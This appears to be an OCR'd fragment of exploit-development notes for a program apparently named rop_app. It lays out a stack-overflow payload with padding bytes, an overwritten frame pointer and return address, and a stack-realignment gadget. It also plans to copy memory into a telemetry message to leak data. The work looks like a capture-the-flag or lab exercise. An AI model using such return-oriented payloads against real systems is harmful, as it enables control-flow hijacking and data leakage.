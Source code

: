 stackalignment  = 0x692e7896 (a function epilogue that realigns stack to return to normal operation)

```c
[0xa0,0x7f,0xf9,0x93,0x34,0x35,0x36,0x37,0x38,0x39,0x3a,0x3b,0x3c,0x3d,0x3e,0x3f,0x9e,0x11,0x90,0x94,0x44,0x45,0x46,0x47,0xa4,0x7c,0xf9,0x93,0x7c,0x37,0x2e,0x69,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]
```

thinking ahead, could we just copy 4 bytes to the hk tlm message and see the output?

[
    size: 0x04,0x00,0x00,0x00,
    src:  0xa0,0x7c,0xf9,0x93,          /// wherever token +4bytes each loop
    dest: 0xa0,0x7f,0xf9,0x93,          // rop_app_Object.CmdMgr.ValidCmdCnt
    NOTHING: 0x41,0x41,0x41,0x41,0x42,0x42,0x42,0x42,0x43,0x43,0x43,0x43,
    
    stackframeptr:  0x9c,0x7c,0xf9,0x93,
    returnaddress:  0x58,0xc4,0x2d,0x69,
    NOTHING:        28 bytes
    stackalignment: 0x96,0x78,0x2e,0x69
]
